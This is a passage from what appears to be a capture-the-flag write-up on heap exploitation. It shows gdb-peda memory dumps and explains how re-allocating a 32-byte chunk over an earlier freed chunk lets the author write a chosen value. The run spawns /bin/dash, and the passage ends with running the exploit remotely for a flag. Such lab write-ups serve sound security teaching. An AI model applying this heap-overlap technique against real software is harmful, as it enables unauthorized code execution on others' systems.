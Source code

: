 ```
0056| 0x7fffffffe038 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x0000000000400817 in main ()
gdb-peda$ x/20gx 0x0000000000602010
0x602010:	0x0000000000000000	0x0000000000000000
0x602020:	0x0000000000000000	0x0000000000000000
0x602030:	0x0000000000000000	0x0000000000000031
0x602040:	0x0000000000602000	0x0000000000000000
0x602050:	0x0000000000000000	0x0000000000000000
0x602060:	0x0000000000000000	0x0000000000020fa1
0x602070:	0x0000000000000000	0x0000000000000000
0x602080:	0x0000000000000000	0x0000000000000000
0x602090:	0x0000000000000000	0x0000000000000000
0x6020a0:	0x0000000000000000	0x0000000000000000
gdb-peda$ i reg eax
eax            0x602040	0x602040
```

As a reminder, the goal is to write a "4" in the first chunk (the one at `0x602010`), and we are almost done since we have a pointer to this address. If we allocate 3 bigger useless chunks, and reallocate a 32-bytes one, it will be placed at the expected address because its size fits the available space of the first chunk:

```
gdb-peda$ continue
Continuing.
target green provisioned.
Size of green to provision: 256
Size of green to provision: 256
Size of green to provision: 256
Size of green to provision: 32
[New process 5820]
process 5820 is executing new program: /bin/dash
Warning:
Cannot insert breakpoint 1.
Cannot access memory at address 0x40080d
```

Let's do it remotely:

![flag](flag.png)
